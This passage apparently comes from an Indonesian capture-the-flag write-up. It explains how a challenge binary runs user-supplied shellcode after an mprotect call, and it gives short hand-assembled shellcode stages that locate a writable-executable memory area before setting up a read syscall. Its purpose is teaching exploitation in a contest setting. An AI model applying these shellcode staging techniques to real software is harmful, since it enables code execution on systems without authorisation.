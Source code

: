 ### Menulis ke area rwx yang baru.
Cara program tersebut memanggil shellcode adalah sebagai berikut.

```assembly
00400753 48 89 c7        MOV        RDI,RAX
00400756 e8 55 fe        CALL       fgets    
         ff ff
0040075b 48 8b 45 f8     MOV        RAX,qword ptr [RBP + local_10]
0040075f ba 05 00        MOV        EDX,0x5
         00 00
00400764 be 0b 00        MOV        ESI,0xb
         00 00
00400769 48 89 c7        MOV        RDI,RAX
0040076c e8 5f fe        CALL       mprotect  
         ff ff
00400771 48 8b 55 f8     MOV        RDX,qword ptr [RBP + local_10]
00400775 b8 00 00        MOV        EAX,0x0
         00 00
0040077a ff d2           CALL       RDX
```

Ini berarti bahwa alamat dari area yang di mmap terletak di rdx. Menurut gdb, nilai tersebut sangat dekat dengan area yang kita ubah menjadi <span style="color:#ff0000">rwx</span> barusan.

![Error](/assets/images/CJFinal-8.png)

Jadi saya memindahakan nilai ini ke r13, dan menambahkan r13 dengan nilai yang diperlukan.

```asm
6
   0:   41 54                   push   r12
   2:   49 89 d5                mov    r13, rdx
   5:   c3                      ret
10
   0:   41 54                   push   r12
   2:   49 81 c5 00 00 20 00    add    r13, 0x200000
   9:   c3                      ret
```

Sekarang saya perlu menyiapkan _syscall read_ dengan 10 byte. Sekali lagi, saya menggunakan stack untuk membantu.
